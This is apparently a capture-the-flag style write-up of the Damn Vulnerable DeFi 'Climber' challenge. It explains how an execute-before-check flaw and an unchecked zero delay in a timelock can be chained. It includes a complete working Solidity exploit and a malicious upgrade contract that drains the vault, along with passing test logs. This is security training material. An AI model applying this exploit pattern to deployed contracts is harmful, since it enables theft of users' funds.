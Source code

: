 # Damn Vulnerable Defi - Climber
- Scope
    - ClimberVault.sol
    - ClimberTimelock.sol
    - ClimberTimelockBase.sol
    - ClimberConstants.sol
    - ClimberErrors.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## Various vulnerabilities in `execute()` and `updateDelay()` leading to drained tokens from vault

### Summary
Various vulnerabilities in `execute()` and `updateDelay()` can be chained to upgrade the implementation contract to a malicious one and drain the tokens from vault.

### Vulnerability Details
1. The `execute()` function executes the call first, before perforing the check. Hence, we can schedule a list of calls to be executed and as long the last call is ReadyToExecute, the tx won't revert.
2. `updateDelay()` function checks the input value wrongly, as long as it does not exceed the MAX_DELAY, you can change the delay, including setting it to 0.
```diff
function execute(address[] calldata targets, uint256[] calldata values, bytes[] calldata dataElements, bytes32 salt)
        external
        payable
    {
        if (targets.length <= MIN_TARGETS) {
            revert InvalidTargetsCount();
        }

        if (targets.length != values.length) {
            revert InvalidValuesCount();
        }

        if (targets.length != dataElements.length) {
            revert InvalidDataElementsCount();
        }

        bytes32 id = getOperationId(targets, values, dataElements, salt);

        for (uint8 i = 0; i < targets.length; ++i) {
-1            targets[i].functionCallWithValue(dataElements[i], values[i]);
        }

        if (getOperationState(id) != OperationState.ReadyForExecution) {
-1            revert NotReadyForExecution(id);
        }

        operations[id].executed = true;
    }
```
```diff
function updateDelay(uint64 newDelay) external {
        if (msg.sender != address(this)) {
            revert CallerNotTimelock();
        }

-2        if (newDelay > MAX_DELAY) {
            revert NewDelayAboveMax();
        }

        delay = newDelay;
    }
```

### Impact/Proof of Concept

```diff
function test_climber() public checkSolvedByPlayer {
        console.log("Vault beforeBalance: ", token.balanceOf(address(vault)));
        Exploit exploit = new Exploit(payable(timelock),address(vault));
        exploit.timelockExecute();
        // After obtaining ownership, we implement our malicious upgraded implementation contract and withdraw tokens
        PwnedClimberVault newVaultImpl = new PwnedClimberVault();
        vault.upgradeToAndCall(address(newVaultImpl),"");
        PwnedClimberVault(address(vault)).withdrawAll(address(token),recovery); 
        console.log("Vault afterBalance: ", token.balanceOf(address(vault)));
        console.log("Recovery afterBalance: ", token.balanceOf(recovery));
    }

contract Exploit {
    address payable private immutable timelock;

    uint256[] private _values = [0, 0, 0,0];
    address[] private _targets = new address[](4);
    bytes[] private _elements = new bytes[](4);

    constructor(address payable _timelock, address _vault) {
        // Setup the calls to be executed, the execute() function does not check if these have been scheduled or ReadyToExecute.
        // 1. We grant this contract the PROPOSER_ROLE
        // 2. Then we remove the delay by setting it to 0
        // 3. We transfer ownership of the vault to this contract, so that we can upgrade the implementation contract
        // 4. Lastly we schedule the calls so that the final check for ReadyToExecute will not fail and we have delay already set to 0
        timelock = _timelock;
        _targets = [_timelock, _timelock, _vault, address(this)];

        _elements[0] = (
            abi.encodeWithSignature("grantRole(bytes32,address)", keccak256("PROPOSER_ROLE"), address(this))
        );
        _elements[1] = abi.encodeWithSignature("updateDelay(uint64)", 0);
        _elements[2] = abi.encodeWithSignature("transferOwnership(address)", msg.sender);
        _elements[3] = abi.encodeWithSignature("timelockSchedule()");
    }

    function timelockExecute() external {
        ClimberTimelock(timelock).execute(_targets, _values, _elements, bytes32("123"));
    }

    function timelockSchedule() external {
        ClimberTimelock(timelock).schedule(_targets, _values, _elements, bytes32("123"));
    }
}


// Custom upgraded implementation contract that can withdraw all tokens
contract PwnedClimberVault is ClimberVault {
/// @custom:oz-upgrades-unsafe-allow constructor
    constructor() {
        _disableInitializers();
    }
    function withdrawAll(address tokenAddress, address receiver) external onlyOwner {
        // withdraw the whole token balance from the contract
        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(receiver, token.balanceOf(address(this))), "Transfer failed");
    }
}
```

Results
```diff
[PASS] test_climber() (gas: 2439835)
Logs:
  Vault beforeBalance:  10000000000000000000000000
  Vault afterBalance:  0
  Recovery afterBalance:  10000000000000000000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 1.56ms (571.29µs CPU time)
```

